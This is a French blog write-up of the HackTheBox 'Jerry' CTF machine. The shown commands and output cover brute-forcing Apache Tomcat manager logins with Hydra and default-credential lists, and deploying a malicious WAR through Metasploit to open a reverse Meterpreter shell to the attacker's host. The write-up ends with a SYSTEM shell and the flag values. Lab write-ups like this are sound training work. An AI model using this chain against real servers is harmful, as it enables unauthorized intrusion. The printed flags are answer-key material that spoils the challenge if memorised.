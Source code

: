 ```yaml
---
title: "Solution du CTF Jerry de HackTheBox"
tags: [CTF, HackTheBox]
---
```


Introduction
------------

Ce CTF a été de loin la pire expérience sur HackTheBox : un challenge ultra simple pourri par d'autres utilisateurs qui réinitialisaient les mots de passe non-stop, sans compter les reset fréquents de la machine lancés par les autres utilisateurs excédés.  

Blitzkrieg
----------

On a un Apache Tomcat/7.0.88 tournant sur le port 8080. Le système semble être un Microsoft Windows Server 2012.  

On trouve facilement [une liste de mots de passe par défaut](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) pour l'accès au Tomcat.  

On peut bruteforcer l'accès à la section manager via le module Metasploit *scanner/http/tomcat\_mgr\_login* ou encore via Hydra en espérant que le mot de passe n'a pas été préalablement changé :  

```plain
$ hydra -P  /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt -L /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt http-get://10.10.10.95:8080/manager/html
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-07-01 13:28:10
[DATA] max 16 tasks per 1 server, overall 16 tasks, 42 login tries (l:6/p:7), ~3 tries per task
[DATA] attacking http-get://10.10.10.95:8080//manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-07-01 13:28:13
```

Dès lors on peut exploiter le Tomcat par l'upload d'un fichier WAR spécifique, ce que fait très bien Metasploit pour nous :  

```plain
msf exploit(multi/http/tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.35:443
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying 8XnD7mo2yl64uHauGnpw62S1lJuMdv...
[*] Executing 8XnD7mo2yl64uHauGnpw62S1lJuMdv...
[*] Undeploying 8XnD7mo2yl64uHauGnpw62S1lJuMdv ...
[*] Sending stage (53837 bytes) to 10.10.10.95
[*] Meterpreter session 1 opened (10.10.14.35:443 -> 10.10.10.95:49192) at 2018-07-07 09:34:26 +0200

meterpreter > getuid
Server username: JERRY$
meterpreter > pwd
C:\apache-tomcat-7.0.88
meterpreter > sysinfo
Computer    : JERRY
OS          : Windows Server 2012 R2 6.3 (amd64)
Meterpreter : java/windows
meterpreter > shell
Process 1 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>

C:\Users\Administrator\Desktop\flags>whoami
whoami
nt authority\system
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```


*Published November 17 2018 at 18:43*
